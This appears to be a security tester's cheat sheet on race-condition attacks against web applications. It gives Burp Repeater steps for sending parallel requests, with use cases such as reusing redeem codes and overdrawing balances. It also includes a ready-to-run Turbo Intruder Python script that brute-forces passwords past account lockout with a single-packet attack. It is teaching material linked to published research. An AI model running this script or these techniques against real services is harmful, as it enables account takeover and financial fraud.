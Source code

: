 ### Submitting a form multiple times using Burp repeater
1. Create a group and duplicate tabs within it.
2. Click the drop-down arrow by the side of the Send button and select "Send group in parallel"
3. Click Send group. Repeater sends all of the requests from the grouped tabs.
    ### Use cases
    1. Using a redeem code multiple times
    2. Rating a product multiple times
    3. Withdrawing or transferring cash in excess of your account balance
    4. Reusing a single CAPTCHA solution
  
### Bypassing Rate limiting using Turbo Intruder

Turbo Intruder is suited to more complex attacks, such as ones that require multiple retries, staggered request timing, or an extremely large number of requests.

### Probe for clues
1. Observe that after (x) number of concurent failed login attempts, you're temporarily locked out.

2. Send the group of requests again in parallel.

3. Study the responses. Notice that although you have triggered the account lock, more than (x) requests received the normal Invalid username and password response.

4. Infer that if you're quick enough, you're able to submit more than three login attempts before the account lock is triggered.

### Proof-of-concept
1. Highlight the part you wanna brute-force (password=%s)
2. Right-click and select Extensions > Turbo Intruder > Send to turbo intruder.
3. From the drop-down menu, select the examples/race-single-packet-attack.py template
4. In the Python editor, edit the template so that your attack queues the request once using each of the candidate passwords. For simplicity, you can copy the following example:

'''

    def queueRequests(target, wordlists):
    
        # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
        engine = RequestEngine(endpoint=target.endpoint,
                               concurrentConnections=1,
                               engine=Engine.BURP2
                               )
        
        # assign the list of candidate passwords from your clipboard
        passwords = wordlists.clipboard
        
        # queue a login request using each password from the wordlist
        # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
        for password in passwords:
            engine.queue(target.req, password, gate='1')
        
        # once every request has been queued
        # invoke engine.openGate() to send all requests in the given gate simultaneously
        engine.openGate('1')
    
    
    def handleResponse(req, interesting):
        table.add(req)
        
'''

# Refrences
https://portswigger.net/web-security/race-conditions

https://portswigger.net/research/the-single-packet-attack-making-remote-race-conditions-local

https://sakurity.com/blog/2015/05/21/starbucks.html

https://github.com/TheHackerDev/race-the-web
